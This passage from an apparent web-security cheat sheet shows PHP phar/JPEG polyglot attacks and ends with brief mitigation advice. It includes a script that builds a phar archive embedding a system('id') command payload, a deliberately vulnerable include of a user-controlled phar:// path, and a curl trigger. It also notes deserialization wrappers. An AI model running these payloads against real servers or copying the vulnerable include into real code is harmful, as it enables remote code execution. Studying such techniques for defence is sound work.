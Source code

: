 ```php

 error_reporting(E_ALL);

 $phar = new Phar("archive.phar");
 $phar->startBuffering();
 $phar->addFromString("test.txt",'<?php echo system("id"); ?>');
 $phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
 $phar->stopBuffering();

?>
```

**Generate the archive**
```bash
php --define phar.readonly=0 build_archive.php
```

**Vulnerable code**
`read.php`
```php
<?php include("phar://" . $_GET['page']); ?>
```

**Trigger the payload**
```bash
php -S localhost:80
curl http://localhost/read.php?page=phar://archive.phar/test.txt
```

> [!NOTE] Other polyglots
> - `.phar`x`.jpg` : https://github.com/kunte0/phar-jpg-polyglot
> - https://www.nc-lp.com/blog/disguise-phar-packages-as-images


#### JPG x PHAR (`Deserialization`)

> [!NOTE] Access
> - Using `file_exists('phar://foobar.jpg')` wrapper
> - Using `file_get_contents('php://filter/resource=phar://foobar.jpg')` wrapper
> - To trigger `phar` deserialization, you should call a function that deals with files such as `file_exists('phar://phar.jpg)`,`file_get_contents()`, ...
> - https://ctftime.org/writeup/22612


# Solution : Do not allow to read files

From the web admin view, the most secure way to handle file upload is to upload the file to a non web readable folder (e.g. do not allow the user to read `/uploads/`)

> [!NOTE] Implementations
> - This can be done using `.htaccess` configuration
> - This can be done uploading to a non web folder (e.g. `/tmp/uploads`) and use the PHP `readfile()` method to return the content of the file
> - Randomize filenames and keep tracks of the default name a database 
